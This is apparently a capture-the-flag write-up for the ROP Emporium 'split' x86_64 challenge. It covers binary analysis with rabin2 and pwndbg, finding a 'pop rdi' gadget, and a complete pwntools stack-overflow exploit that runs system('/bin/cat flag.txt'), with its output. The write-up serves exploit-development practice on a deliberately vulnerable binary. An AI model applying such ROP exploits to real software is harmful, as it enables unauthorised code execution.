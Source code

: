 # ROP - Split


## Description 

This challenge has been taken from https://ropemporium.com/challenge/split.html.
The purpose is to call the ```system()``` function with ```/bin/cat flag.txt``` as parameter. We also know that this string is contained in a section inside our binary.
More information in the linked website.

## How to build the ROP chain

Download the challenge:
```sh
$ curl --output split.zip https://ropemporium.com/binary/split.zip
$ unzip split.zip && rm split.zip
```

Since the string is contained in the executable, let's start using ```rabin2``` to locate it:
```sh
$ rabin2 -z split
``` 

```asm
[Strings]

nth paddr      vaddr      len size section type  string

―――――――――――――――――――――――――――――――――――――――――――――――――――――――

0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```

The string is in ```0x00601060```. 
We also know that ```system``` is located somewhere, so check the imported functions from shared libraries:
```sh
$ rabin2 -i split
```

```asm
[Imports]

nth vaddr      bind   type   lib name

―――――――――――――――――――――――――――――――――――――

1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system
3   0x00400570 GLOBAL FUNC       printf
4   0x00400580 GLOBAL FUNC       memset
5   0x00400590 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00000000 WEAK   NOTYPE     __gmon_start__
8   0x004005a0 GLOBAL FUNC       setvbuf
```

Ok, ```system``` is imported, but what register should we set in order to store the parameter e.g. ```/bin/cat flag.txt```?
Listing the function written by the programmer could be a start...:

```sh
$ rabin2 -qs split | grep -ve imp -e ' 0 '
```

```asm
0x00601078 8 stdout
0x00601080 1 completed.7698
0x004006e8 90 pwnme
0x00400742 17 usefulFunction
0x004007d0 2 __libc_csu_fini
0x00601078 8 stdout@@GLIBC_2.2.5
0x004007e0 4 _IO_stdin_used
0x00601060 18 usefulString
0x00400760 101 __libc_csu_init
0x004005e0 2 _dl_relocate_static_pie
0x004005b0 43 _start
0x00400697 81 main
```

Great! Then disassemble ```usefulFunction```:
```asm
pwndbg> disass usefulFunction
Dump of assembler code for function usefulFunction:
  0x0000000000400742 <+0>:     push   rbp
  0x0000000000400743 <+1>:     mov    rbp,rsp
  0x0000000000400746 <+4>:     mov    edi,0x40084a
  0x000000000040074b <+9>:     call   0x400560 <system@plt>
  0x0000000000400750 <+14>:    nop
  0x0000000000400751 <+15>:    pop    rbp
  0x0000000000400752 <+16>:    ret    
End of assembler dump.
```
As we can see, the edi register is used to store the string, to verify that:

```asm
pwndbg> x/s 0x40084a
```

```asm
0x40084a:       "/bin/ls"
```

Enter to pwndbg (```gdb-pwndbg split```) and disassemble ```pwnme```:

```asm
pwndbg> disass pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:     push   rbp
   0x00000000004006e9 <+1>:     mov    rbp,rsp
   0x00000000004006ec <+4>:     sub    rsp,0x20
   0x00000000004006f0 <+8>:     lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:    mov    edx,0x20
   0x00000000004006f9 <+17>:    mov    esi,0x0
   0x00000000004006fe <+22>:    mov    rdi,rax
   0x0000000000400701 <+25>:    call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:    mov    edi,0x400810
   0x000000000040070b <+35>:    call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:    mov    edi,0x40083c
   0x0000000000400715 <+45>:    mov    eax,0x0
   0x000000000040071a <+50>:    call   0x400570 <printf@plt>
   0x000000000040071f <+55>:    lea    rax,[rbp-0x20]
   0x0000000000400723 <+59>:    mov    edx,0x60
   0x0000000000400728 <+64>:    mov    rsi,rax
   0x000000000040072b <+67>:    mov    edi,0x0
   0x0000000000400730 <+72>:    call   0x400590 <read@plt>
   0x0000000000400735 <+77>:    mov    edi,0x40083f
   0x000000000040073a <+82>:    call   0x400550 <puts@plt>
   0x000000000040073f <+87>:    nop
   0x0000000000400740 <+88>:    leave  
   0x0000000000400741 <+89>:    ret    
End of assembler dump.
```

As we can see there's a ```rax,[rbp-0x20]``` instruction before the read operation. Here ```0x20``` is subtracted from ```rbp``` since they're the bytes allocated to store the input string (32 bytes): if more chars are inserted it's possible to overwrite the return address of this function, so this is the point where the flow of execution will be changed by us.

What remains to do is finding a gadget that pops a value from the stack and puts it into the edi register.

```sh
$ ropper -f split
```
```asm
0x00000000004007c3: pop rdi; ret; 
```

Done.
Now we can build the rop chain. At the ret instruction at the end of ```pwnme``` the stack should be like:  

```
|                    |
|                    |
|      p_gadget      | <-- rsp
|   p_usefulString   |
|      p_system      |
|        ...         |
----------------------
          |
          V
|                    |
|                    |
| 0x00000000004007c3 | <-- rsp
| 0x0000000000601060 |
| 0x000000000040074b |
|         ...        |
----------------------
```

## Exploit

To override the rsp register e.g. find the correct length of the first part of the payload I did some experiments putting a breakpoint in the ret instruction and see what is its content. I found that 40 bytes before ```p_gadget``` are needed.

Moreover, the stack should be 16 bytes aligned so it's necessary to add 4 bytes at the end of the payload.

```python
import pwn

p = pwn.process("./split")

gdb_cmd = [
        'set disassembly-flavor intel',
        #'b *0x0000000000400735',
        #'b *0x0000000000400741',
        'c',
        ]

pwn.gdb.attach(p, gdbscript='\n'.join(gdb_cmd))

# Address of system()
p_system = 0x0040074b
# Address of pop rdi, ret gadget
p_gadget = 0x004007c3
# Address of "/bin/cat flag.txt"
p_usefulString = 0x00601060

# Bytes needed to override rsp
offset = 40

payload = b"A" * offset
payload += pwn.p64(p_gadget)
payload += pwn.p64(p_usefulString)
payload += pwn.p64(p_system)
payload += b"A" * 4

p.recvuntil(b'\n>')
p.sendline(payload)

p.interactive()
```

```sh
$ python3 exploit.py

[+] Starting local process './split': pid 101757
[*] running in new terminal: ['/usr/bin/gdb', '-q', './split', '101757', '-x', '/tmp/pwnywkpk4ct.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
 Thank you!
ROPE{a_placeholder_32byte_flag!}
$
```  
